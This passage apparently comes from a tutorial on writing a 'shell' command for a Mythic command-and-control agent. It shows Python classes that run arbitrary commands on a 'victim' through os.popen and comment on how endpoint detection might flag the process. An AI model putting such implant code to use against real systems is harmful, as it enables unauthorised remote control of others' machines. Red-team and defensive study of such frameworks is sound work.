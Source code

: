 ```
    async def parse_dictionary(self, dictionary_arguments):
        self.load_args_from_dictionary(dictionary_arguments)
```

ShellOpsec is a very interesting class, as it can check for things about the victim prior to, and after running a command.  All I do in this one is inform the user how the process is being created, in case they are aware of an endpoint detection system on the victim that will create an alert or kill the process.
```
class ShellOpsec(CommandOPSEC):
    injection_method=""
    process_creation="os.popen(,shell=True)"
    authentication=""
    async def opsec_pre(self, task: MythicTask):
        task.opsec_pre_message= "This runs os.popen(), just FYI"

    async def opsec_post(self, task: MythicTask):
        task.opsec_pre_message= "You just ran os.popen()!!!"
```

ShellCommand is the primary class of the agent function file.  It provides info to the server about what it does and how it does it.  
```
class ShellCommand(CommandBase):
    cmd = "shell"
    needs_admin = False
    help_cmd = "shell {command}"
    description = "Calls a command with python os.popen"
    version = 1
    author = "@darkwire"
    attackmapping = ["T1059"]
    argument_class = ShellArguments
    opsec_class = ShellOpsec
    attributes = CommandAttributes(		# More info about these attributes are available on the Mythic docs page
        spawn_and_injectable=False,
        builtin=True,
        load_only=False,
        suggested_command=False)

    async def create_tasking(self, task: MythicTask) -> MythicTask:		# This will create artifacts for the Mythic server for each task created
        resp = await MythicRPC().execute("create_artifact", task_id=task.id,
            artifact="os.popen({},shell=True)".format(task.args.get_arg("command")),
            artifact_type="Process Create",
        )
        resp = await MythicRPC().execute("create_artifact", task_id=task.id,
            artifact="{}".format(task.args.get_arg("command")),
            artifact_type="Process Create",
        )
        task.display_params = task.args.get_arg("command")
        return task

    async def process_response(self, response: AgentResponse):			# This can provide special ways to process the response, but I am not including any.  
        pass
```
